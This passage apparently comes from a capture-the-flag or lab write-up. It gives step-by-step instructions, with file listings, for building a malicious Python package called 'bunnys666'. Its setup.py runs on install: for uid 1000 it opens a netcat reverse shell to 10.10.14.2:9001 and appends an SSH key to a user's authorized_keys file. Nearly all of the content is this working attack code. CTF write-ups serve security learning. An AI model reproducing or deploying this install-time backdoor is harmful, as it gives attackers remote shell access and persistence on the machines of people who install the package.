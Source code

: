 here's my steps to iniate a malicious package:

```text
mkdir bunnys666
cd bunnys666/
mkdir package

touch README.md (empty file)
touch package/__init__.py (empty file)
touch setup.cfg
touch setup.py
```

![](/assets/img/sneaky/38.png)


inside setup.cfg files:

```
[metadata]
description-file = README.md
```

setup.py contains: 

```python
import setuptools
import os

if os.getuid() == 1000:
	#optional access with netcat
    os.system('nc -e /bin/bash 10.10.14.2 9001')
  #optional access with ssh
    os.system("echo 'ssh-key' >> /home/low/.ssh/authorized_keys")
	

setuptools.setup(
    name="bunnys666",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)
```
